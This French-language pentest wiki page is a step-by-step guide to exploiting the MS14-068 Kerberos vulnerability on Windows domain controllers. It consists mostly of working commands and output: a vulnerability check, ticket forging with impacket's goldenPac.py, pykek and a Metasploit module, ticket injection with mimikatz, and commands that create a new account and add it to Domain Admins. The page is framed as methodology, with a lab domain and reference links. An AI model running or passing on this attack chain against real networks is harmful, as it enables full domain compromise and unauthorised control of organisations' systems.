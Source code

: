 ```yaml
---
title: MS14-068
permalink: /MS14-068/
---
```


Enumeration
-----------

[Responder](/Responder "wikilink") peut vérifier si un serveur est vulnérable à MS14-068 (**Note**: il peut être nécessaire de modifier le temps de timeout dans le fichier FindSMB2UPTime.py):

``` bash
[~] python /usr/share/responder/FindSMB2UPTime.py 192.168.31.220
DC is up since: 2013-12-28 22:24:25
This DC is vulnerable to MS14-068
```

Exploitation
------------

### Génération du token Keberos

#### impacket

\[impacket\] intégre un module pour exploiter MS14-068. Ce module permet de générer le ticket et ensuite de se connecter au serveur cible:

``` bash
/usr/local/bin/goldenPac.py -target-ip 192.168.31.220 -dc-ip 192.168.31.220 thinc.local/bob:\!Qwerty^@master.thinc.local
```

#### pykek

L'outil [pykek](https://github.com/bidord/pykek) peut être utilisé pour générer un token Kerberos pour un utilisateur administratif. Dans l'exemple suivant on part d'un utilisateur à faible privilèges dont on connaît le login, le mdp et le SID.

``` bash
[pykek] python ms14-068.py -u bob@THINC.LOCAL -s S-1-5-21-279202750-2644721835-2190734642-1105 -d 192.168.31.220 -p \!Qwerty^
```

En cas d'erreur il est nécessaire de s'assurer que l'horloge soit bien synchronisée avec le DC:

``` bash
[~] rdate -n 192.168.31.220
Sat Dec 28 02:37:08 EST 2013
```

#### msfconsole

Un module metasploit existe également (auxiliary/admin/kerberos/ms14_068_kerberos_checksum):

``` bash
msf exploit(current_user_psexec) > use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
msf auxiliary(ms14_068_kerberos_checksum) > show options

Module options (auxiliary/admin/kerberos/ms14_068_kerberos_checksum):

   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    THINC.LOCAL                                    yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  !Qwerty^                                       yes       The Domain User password
   RHOST     192.168.31.220                                 yes       The target address
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      bob                                            yes       The Domain User
   USER_SID  S-1-5-21-279202750-2644721835-2190734642-1105  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000

msf auxiliary(ms14_068_kerberos_checksum) > run

[*] Validating options...
[*] Using domain THINC.LOCAL...
[*] 192.168.31.220:88 - Sending AS-REQ...
[*] 192.168.31.220:88 - Parsing AS-REP...
[*] 192.168.31.220:88 - Sending TGS-REQ...
[+] 192.168.31.220:88 - Valid TGS-Response, extracting credentials...
[+] 192.168.31.220:88 - MIT Credential Cache saved on /root/.msf5/loot/20131228023752_default_192.168.31.220_windows.kerberos_061217.bin
[*] Auxiliary module execution completed
```

### Utilisation du token kerberos

Sous Windows:

``` bash
klist purge
mimikatz.exe "kerberos::ptc TGT_user-a-1@dom-a.loc.ccache" exit
```

Sur une machine reliée au domaine on peut:

``` bash
net user hacked password /add /domain
net group "Domain Admins" hacked /add /domain
```

Ressources
----------

-   [From MS14-068 to Full Compromise – Step by Step](https://www.trustedsec.com/december-2014/ms14-068-full-compromise-step-step/)
-   [MS14-068 : comment Kerberos a permis la compromission totale de votre domaine Windows](http://www.securityinsider-solucom.fr/2015/03/ms14-068-comment-kerberos-permis-la.html)
-   [12 Days of HaXmas: MS14-068, now in Metasploit!](https://community.rapid7.com/community/metasploit/blog/2014/12/25/12-days-of-haxmas-ms14-068-now-in-metasploit)
-   [Digging into MS14-068, Exploitation and Defence](https://labs.mwrinfosecurity.com/blog/digging-into-ms14-068-exploitation-and-defence/)

[Category:Méthodologies](/Category:Méthodologies "wikilink")